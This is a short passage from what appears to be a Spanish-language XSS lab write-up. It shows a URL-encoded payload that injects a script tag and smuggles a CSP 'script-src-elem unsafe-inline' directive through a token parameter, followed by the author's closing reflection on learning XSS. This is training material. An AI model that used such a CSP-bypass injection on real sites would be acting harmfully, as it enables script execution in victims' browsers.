 Payload

```
%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

![](img73.png)

## CONCLUSION

Empecé creyendo que XSS era facil, pero mientras vas avanzando los laboratorios de topas con ciertos conceptos muy complejos que se deben estudiar para poder entender bien todo lo que significa realizar vulnerabilidades XSS.